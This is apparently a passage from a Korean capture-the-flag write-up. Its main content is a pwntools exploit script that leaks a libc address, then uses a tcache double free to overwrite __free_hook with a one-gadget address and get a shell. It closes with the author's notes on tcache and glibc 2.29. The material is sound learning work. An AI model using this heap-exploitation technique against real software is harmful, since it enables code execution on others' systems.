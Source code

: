     delete(0)
    #pause()
    delete(0)
    
    update(0,p8(0x58))
    #pause()
    
    add(1,0x20,"A")
    add(2,0x20,p16(0x421))
    #gdb.attach(p,'code\nb *0xd03+$code\n')
    #pause()
    add(3,0x400,p64(0x21)*0x400)
    
    #pause()
    delete(0)
    #pause()
    check(0)
    p.recvuntil("그대의 데이터는 :")
    leak=u64(p.recv(6).ljust(8,'\x00'))
    log.info("leak::"+hex(leak))
    #pause()
    
    libc_base=leak-0x3ebca0
    freehook=libc_base+libc.symbols['__free_hook']
    one_gadet=libc_base+0x4f322
    #gdb.attach(p,'code\nb *0xc17+$code\n')
    
    add(4,0x100,"A")
    delete(4)
    delete(4)
    
    #pause()
    #gdb.attach(p,'code\nb *0xAAA+$code\n')
    
    update(4,p64(freehook))
    pause()
    #add(5,0x100,p8(0xe8))
    add(5,0x100,"A")
    pause()
    add(6,0x100,p64(one_gadet))
    
    delete(5)
    
    p.interactive()





### 4. 몰랐던 개념

---

- tcache 소스코드 분석을 하고 문제를 푸느라 오래걸렸다. 하지만 tcache와 관련된 문제는 쉽게 풀수 있을 것같다.
- 현재 2.29 이후부터는 연속으로 free를 못하게 막아놨다. 추후에 glibc 2.29 버전과 관련된 문제를 풀때 다시한번 추가된 코드를 정리해야겠다